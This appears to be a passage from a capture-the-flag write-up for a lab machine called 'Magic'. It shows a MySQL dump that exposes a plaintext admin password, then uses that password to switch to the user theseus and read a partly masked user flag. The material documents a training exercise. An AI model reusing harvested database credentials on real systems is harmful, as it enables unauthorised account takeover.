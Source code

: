 ![image.png](/assets/Magic%201e1c3827f4e0807fba44dd3fe8d9c0f5/image%2017.png)

```bash
LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```

Using credentials from **MySQL** databases we can switch user to `theseus` and get the `user.txt`

```bash
www-data@magic:/tmp$ su - theseus 
theseus@magic:~$ cat user.txt 
e2c5bc**************
```
